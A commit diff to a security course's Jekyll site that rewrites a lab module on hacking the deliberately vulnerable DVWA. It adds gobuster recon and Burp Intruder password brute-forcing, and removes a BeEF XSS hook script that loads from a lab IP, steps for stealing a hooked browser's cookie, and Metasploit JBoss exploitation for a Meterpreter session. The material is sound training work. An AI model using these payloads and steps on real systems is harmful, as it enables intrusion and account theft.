

Before and after one commit to cmm-cisco/bah-site, a Jekyll site: the page built from modules/6.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; some of the changed text lies outside the part shown; grey boxes are pictures that could not be loaded.

Commit message:
WIP: update module 6

```diff
--- a/modules/6.md
+++ b/modules/6.md
@@ -1,163 +1,89 @@
 ---
-title: Web Applications
+title: Hacking Web Applications
 layout: module
 ---
 
 # Hacking Web Applications
 
-### Goals
+## Exercise 1: Recon with `gobuster`
 
--   Successfully exploit the [Damn Vulnerable Web App
-    (DVWA)](http://www.dvwa.co.uk/) with [Cross-Site Scripting
-    (XSS)](https://www.owasp.org/index.php/Top_10_2013-A3-Cross-Site_Scripting_(XSS))
+`Gobuster` is a brute-force tool, written in Go and a more modern alternative to `Dirbuster`.
 
--   Leverage this XSS and take control of a users' browser with
-    the [Browser Exploitation Framework
-    (BeEF)](http://beefproject.com/)
+* URIs (directories and files) in web sites
+* DNS subdomains
+* Virtual hostnames on target web servers
+* Open Amazon S3 buckets
 
--   Successfully exploit an [SQL
-    Injection](https://www.owasp.org/index.php/Top_10_2013-A1-Injection) in
-    the DVWA to enumerate users on the app
+Tools like `gobuster` use "wordlists", or a file that contains many (many!) words that are used to find directories, files, crack passwords, etc.
 
--   Use [SQLMap](http://sqlmap.org/) to assist in the
-    exploitation and exfiltration of SQL Injection errors.
+In Kali, you can see installed wordlists by opening a terminal and running `locate wordlists`. Additionally, we have cloned the SecLists Github repo to `/root/SecLists`:
 
--   Practice exploiting an [OS command
-    injection](https://www.owasp.org/index.php/Command_Injection) vulnerability
-    to create a [reverse
-    shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
-
--   Use the [Metasploit
-    Framework](https://community.rapid7.com/community/metasploit) to
-    assess a JBoss install for vulnerabilities, then exploit JBoss using
-    the Meterpreter plugin
-
-## Exercise 1: Prerequisites
+> SecLists is the security tester's companion. It's a collection of multiple types of lists used during security assessments, collected in one place. List types include usernames, passwords, URLs, sensitive data patterns, fuzzing payloads, web shells, and many more. The goal is to enable a security tester to pull this repository onto a new testing box and have access to every type of list that may be needed.
 
 ### Task 1
 
-Start BurpSuite.
+Metasploitable is "an intentionally vulnerable Ubuntu Linux virtual machine that is designed for testing common vulnerabilities." In the lab network, there is a Metasploitable machine reachable at `http://metasploitable`. The Metasploitable machine is running a web application called "DVWA" (Damn Vulnerable Web App) which also has gaping security holes we will exploit in these exercises. The DVWA web app is accessible at `http://metasploitable/dvwa`.
 
--   This can be found in Applications **Menu > 03 - Web Application
-    Analysis**
--   Choose Temporary project, Click **Next**
--   Choose Use Burp defaults, Click **Start Burp**
--   Click on the **Proxy tab**, then **Intercept**
--   Make sure Intercept is **Off**.
+Try running `gobuster` on DVWA. You can use any wordlist you want-- there are some in `/root/SecLists` or `/usr/share/wordlists/dirbuster/`.
+
+{% capture text %}
+<pre>
+gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://metasploitable/dvwa/
+</pre>
+{% endcapture %}
+{% include cheat.html text=text %}
+
+## Exercise 3: Brute Forcing a Password using Burp Suite
+
+In this exercise, we'll set up Burp Suite with Firefox, learn some Burp Suite basics, and brute force a password using Burp Suite's Intruder tool.
+
+### Task 1
+
+In your Kali machine, open `Burp Suite`. Since we're using the free Community Edition, you can only start a temporary project. When asked, select `Use Burp Defaults`.
+
+> Note: it may take a minute for Burp Suite to start.
+
+Burp Suite works by proxying network traffic between your browser and the web server. To use it properly, we need to configure a browser to send traffic through Burp Suite.
+
+1. Open Firefox. Go to `about:preferences` -> General -> scroll to the bottom -> Network settings.
+2. Click "Manual proxy configuration", and set the host to `127.0.0.1` and the port to `8080`. Check the "Use this proxy for HTTPS" box. Click OK.
+
+![Firefox proxy settings](/img/firefox-proxy-settings.png){:width="50%" height="50%"}
+
+3. Next, navigate to `http://metasploitable/dvwa` in Firefox. You should see the DVWA login page.
+4. In Burp Suite, go to Proxy -> HTTP History. You should see the request that Firefox just sent, and the response.
+
+![](/img/burp-suite-dvwa-request.png){:width="80%" height="80%"}
+
+At this point, if you've never used Burp Suite before, just spend a minute clicking around the interface and reading-- it's overwhelming at first, so just try to get your bearing. Burp Suite has a lot of builtin tools.
 
 ### Task 2
 
-Set Firefox to use BurpSuite as a proxy and disable captive portal
-detection
+1. Navigate to DVWA and login using username `admin` and password `password`.
+2. On the left sidebar, click "DVWA Security", and set the security level to `Low`.
+3. On the left sidebar, click "Brute Force." Attempt to login with `admin` and a dumb password like `1234`.
+4. In Burp Suite, find the login request you just sent (it will be a `POST /vulnerabilities/brute`). Right click -> click "Send to Intruder".
+5. Along the top tabs in Burp Suite, you should see "Intruder"-- it should be highlighted in orange because you just sent something new to it. Click the tab.
+6. You should be in the "Positions" tab by default-- start here. At the bottom, it should say `0 payload positions`. If not, click `Clear` on the right side.
+7. Highlight the password you entered (NOT the surrounding quotes), and click "Add". It will surround the password in a special character.
+8. Go to the next tab, "Payloads". Here, we'll specify what words Burp Suite should try to use to log in. In "Payload Settings", click `Load ...` and choose a wordlist. I recommend using `/usr/share/wordlists/john.lst`.
+9. Go to the last tab, "Settings". Scroll to "Grep - Match". Check the box that says "Flag result items with responses matching these expressions:". There's a good default list, but add "Welcome" to the list (we're cheating a bit here).
 
--   Using Firefox on Kali, browse to **about:config**.
--   Choose **I Accept the Risk**. Search for captive. Set
-    network.captive-portal-service.enabled to false.
--   Proxy settings can be found in O**pen Menu → Preferences → Advanced
-    → Network → Configure how Firefox connects to the Internet →
-    Settings**...
--   Select Manual proxy configuration and make sure HTTP Proxy is set to
-    **localhost** and port **8080**
--   Using Firefox, browse to <http://metasploitable/dvwa> .
--   You should see the request show up in BurpSuite under **HTTP
-    History**
--   What version of Apache is the server running?
+![](/img/burp-suite-flag-matches-option.png){:width="30%"}
 
-### Task 3
+10. Scroll down again to `Redirections`. Under "Follow redirections:", select `Always`.
 
-Log in as ***smithy*** / ***password***
+11. At the top, click `Start Attack`. If you used `john.lst`, you should see pretty quickly that one of the passwords gave a result for "Welcome"... (hint: you already logged in with the admin password earlier...)
 
-### Task 4
+## Exercise X: Reflected XSS
 
-The security level is displayed at the bottom of the page
+In Firefox, navigate to `http://metasploitable/dvwa`, and click on `XSS reflected` in the left panel. Exploit the text input using XSS.
 
--   Change the Security Level of DVWA to **Low**. This can be found in
-    ***DVWA Security***.
+## Exercise X: Stored XSS
 
--   You'll need to do this if you log out and log back in, or log in
-    from another host
 
-### Task 5
 
-Start the beef-xss service:
-
-{% capture code %}
-service beef-xss start
-{% endcapture %}
-{% include copy-paste.html title="BeeF" code=code %}
-
-### Task 6
-
-Make sure you can reach the BeEF UI authentication page at
-<http://localhost:3000/ui/authentication>
-
-> Note: By default, requests to localhost will not be sent to BurpSuite
-> with the default proxy settings.
-
-Log in as ***beef*** / ***beef*** .
-
-## Exercise 2 : Cross Site Scripting
-
-### Task 1
-
--   In a new tab, navigate to **XSS Reflected**. You can view the PHP
-    source code by clicking the **View Source** button at the bottom of
-    the page.
--   Try placing your name in the **Textbox** and click **Submit**
--   From looking at **BurpSuite**, how was your name sent to the server?
--   Trigger a reflected **XSS alert** and print out the current document
-    cookie
--   Use the Web Developer Tools to help you navigate the DOM (**Tools →
-    Web Developer → Inspector**)
--   You can also use the Web Console to view a value in the DOM
-
-### Task 2
-
-Navigate to XSS Stored. Figure out a way to insert a BeEF Hook. You can
-paste in your web browser using **[Control+V]**:
-
-{% capture code %}
-`<script src="http://192.168.1.2:3000/hook.js" type="text/javascript"></script>`
-{% endcapture %}
-{% include copy-paste.html title="XSS Stored" code=code %}
-
-> Note: Use the developer tools to modify the maxlength attribute in the
-> textarea tag, or use BurpSuite to intercept and modify the POST
-> message parameters.
-
-### Task 3
-
-Open your Windows desktop and use Firefox to go to DVWA, log in
-as admin / password
-
--   Go to XSS Stored
--   From the BeEF UI, see if the Windows browser is hooked. If not,
-    figure out why not
-
-### Task 4
-
-Type your name and a message from Windows in the message and store it
-
--   What version of Firefox is running on the hooked Windows Browser?
--   What is the size of the screen?
--   See if you can see the characters that were entered in Windows from
-    the Beef UI. You may need to refresh the log[]{#line-66}
--   Create a prompt dialog with the message of your choice. (Commands →
-    Browser → Hooked Domain)
--   Finally, get the hooked browser's cookie.
-
-**Bonus**: Use the stolen cookie to access the DVWA as admin.
-
-### Task 5
-
-To keep BeEF from interfering with later labs, release all hooked
-browsers
-
--   Reset the DVWA RDMS Database from Setup
--   Log back in as admin
--   Close the Remote Desktop for `windows`
-
-## Exercise 3 : SQL Injection
+## Exercise X: SQL Injection
 
 ### Task 1
 
@@ -186,7 +112,7 @@
 {% endcapture %}
 {% include copy-paste.html title="SQLMap" code=code %}
 
-## Exercise 4 : Command Injection
+## Exercise X: Command Injection
 
 ### Task 1
 
@@ -224,85 +150,3 @@
 ### Task 3
 
 What is the uptime of the system?
-
-## Exercise 5 : Intro to Exploits Using Metasploit Against JBoss
-
-### Task 1
-
-**Shut down BurpSuite**. It uses port 8080 which will conflict with
-JBoss
-
--   You may also need to reboot: `reboot`
-
-### Task 2
-
-Run JBoss:
-
-{% capture code %}
-      cd ~/labs/web-apps
-
-      ./run-jboss.sh
-{% endcapture %}
-{% include copy-paste.html title="Run JBoss" code=code %}
-
-### Task 3
-
-Using Firefox, check that you can connect to JBoss at
-[http://localhost:8080](http://localhost:8080/)
-
-### Task 4
-
-Using Metasploit, run the **jboss_vulnscan** plugin:
-
-{% capture code %}
-	use auxiliary/scanner/http/jboss_vulnscan
-{% endcapture %}
-{% include copy-paste.html title="Use the auxiliary/scanner/http/jboss_vulnscan module" code=code %}
-
-{% capture code %}
-	info
-{% endcapture %}
-{% include copy-paste.html title="Use info to obtain more information about the module" code=code %}
-
-{% capture code %}
-	set RHOSTS 127.0.0.1
-{% endcapture %}
-{% include copy-paste.html title="Set the Remote Host (RHOST)" code=code %}
-
-{% capture code %}
-	set RPORT 8080
-{% endcapture %}
-{% include copy-paste.html title="Set the Remote Port (RPORT)" code=code %}
-
-{% capture code %}
-	exploit
-{% endcapture %}
-{% include copy-paste.html title="Start the exploit" code=code %}
-
-### Task 5
-
-Run Meterpreter through the jboss_invoke_deploy exploit:
-
-{% capture code %}
-	use exploit/multi/http/jboss_invoke_deploy
-
-	info
-
-	set RHOST 127.0.0.1
-
-	set RPORT 8080
-
-	set LHOST 127.0.0.1
-
-	set LPORT 5555
-
-	exploit -t 1
-{% endcapture %}
-{% include copy-paste.html title="Similar procedure as the one you just learned, but in this case invoking Meterpreter." code=code %}
-
-### Task 6
-
-List the running processes on the victim.
-
--   Use `help`
--   What other commands look interesting? Try some of them out!
--- a/os_files/style.css
+++ b/os_files/style.css
@@ -567,3 +567,15 @@
 table tr:nth-child(even) td {
 	background-color: #E0E0E0;
 }
+
+img {
+	display: block;
+	margin-left: auto;
+	margin-right: auto;
+	margin-top: 3rem;
+	margin-bottom: 5rem;
+}
+
+li {
+	margin-bottom: 1rem;
+}
```
Also changed, not shown: index.md (+2 -2 lines), modules/5.md (+5 -5 lines), img/burp-suite-dvwa-request.png (added), img/burp-suite-flag-matches-option.png (added), img/firefox-proxy-settings.png (added).
